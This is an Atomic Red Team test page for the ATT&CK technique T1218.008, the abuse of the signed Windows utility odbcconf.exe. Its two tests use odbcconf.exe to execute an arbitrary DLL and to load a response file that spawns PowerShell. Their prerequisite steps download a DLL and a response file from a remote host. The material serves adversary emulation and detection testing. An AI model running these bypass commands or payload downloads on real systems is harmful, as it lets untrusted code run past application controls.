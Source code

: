 # T1218.008 - Signed Binary Proxy Execution: Odbcconf
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/008)
<blockquote>

Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.(Citation: Microsoft odbcconf.exe) The Odbcconf.exe binary may be digitally signed by Microsoft.

Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010), odbcconf.exe has a <code>REGSVR</code> flag that can be misused to execute DLLs (ex: <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>). (Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017) 


</blockquote>

## Atomic Tests

- [Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL](#atomic-test-1---odbcconfexe---execute-arbitrary-dll)

- [Atomic Test #2 - Odbcconf.exe - Load Response File](#atomic-test-2---odbcconfexe---load-response-file)


<br/>

## Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally.

**Supported Platforms:** Windows


**auto_generated_guid:** 2430498b-06c0-4b92-a448-8ad263c388e2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute | path | PathToAtomicsFolder&#92;T1218.008&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
odbcconf.exe /S /A {REGSVR "#{dll_payload}"}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.008/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - Odbcconf.exe - Load Response File
Execute arbitrary response file that will spawn PowerShell.exe.
Source files: https://github.com/woanware/application-restriction-bypasses

**Supported Platforms:** Windows


**auto_generated_guid:** 331ce274-f9c9-440b-9f8c-a1006e1fce0b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| rsp_file_name | Response file name to load | string | T1218.008.rsp|
| rsp_file_path | Response file path | string | PathToAtomicsFolder&#92;T1218.008&#92;bin&#92;|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cd "#{rsp_file_path}"
odbcconf.exe -f "#{rsp_file_name}"
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.008.rsp must exist on disk at specified location (#{rsp_file_path}#{rsp_file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{rsp_file_path}#{rsp_file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.008/bin/T1218.008.rsp" -OutFile "#{rsp_file_path}#{rsp_file_name}"
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.008/bin/o.dll" -OutFile "#{rsp_file_path}\o.dll"
```




<br/>
